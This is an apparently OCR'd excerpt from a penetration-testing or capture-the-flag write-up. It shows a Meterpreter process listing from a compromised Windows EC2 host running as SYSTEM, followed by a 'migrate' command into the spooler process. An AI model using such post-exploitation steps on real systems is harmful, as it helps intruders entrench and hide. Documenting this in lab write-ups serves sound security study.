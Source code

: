 ```bash
 0     0     [System Process]
 4     0     System                x64   0
 416   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           \SystemRoot\System32\smss.exe
 460   668   LogonUI.exe           x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\LogonUI.exe
 492   716   svchost.exe           x64   0        NT AUTHORITY\SYSTEM
 552   716   svchost.exe           x64   0        NT AUTHORITY\SYSTEM
 568   560   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 616   560   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\wininit.exe
 628   608   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 668   608   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\winlogon.exe
 716   616   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\services.exe
 724   616   lsass.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\lsass.exe
 732   616   lsm.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\lsm.exe
 844   716   svchost.exe           x64   0        NT AUTHORITY\SYSTEM
 912   716   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE
 960   716   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE
 1056  716   mscorsvw.exe          x86   0        NT AUTHORITY\SYSTEM           C:\Windows\Microsoft.NET\Framework\v4.0.30319\
                                                                                mscorsvw.exe
 1124  716   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE
 1228  716   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE
 1356  3832  cmd.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\cmd.exe
 1364  568   conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe
 1368  716   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE
 1452  716   amazon-ssm-agent.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\SSM\amazon-ssm-agent.e
                                                                                xe
 1532  716   LiteAgent.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\XenTools\LiteAgent.exe
 1672  716   Ec2Config.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Ec2ConfigService\Ec2Co
                                                                                nfig.exe
 1772  1056  mscorsvw.exe          x86   0        NT AUTHORITY\SYSTEM           C:\Windows\Microsoft.NET\Framework\v4.0.30319\
                                                                                mscorsvw.exe
 1972  716   TrustedInstaller.exe  x64   0        NT AUTHORITY\SYSTEM
 1996  716   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE
 2072  716   mscorsvw.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\Microsoft.NET\Framework64\v4.0.3031
                                                                                9\mscorsvw.exe
 2116  844   WmiPrvSE.exe
 2232  716   sppsvc.exe            x64   0        NT AUTHORITY\NETWORK SERVICE
 2244  716   svchost.exe           x64   0        NT AUTHORITY\SYSTEM
 2376  716   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE
 2580  716   SearchIndexer.exe     x64   0        NT AUTHORITY\SYSTEM
 2620  716   vds.exe               x64   0        NT AUTHORITY\SYSTEM
 3832  716   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe

meterpreter > migrate 3832
[-] Process already running at PID 3832

```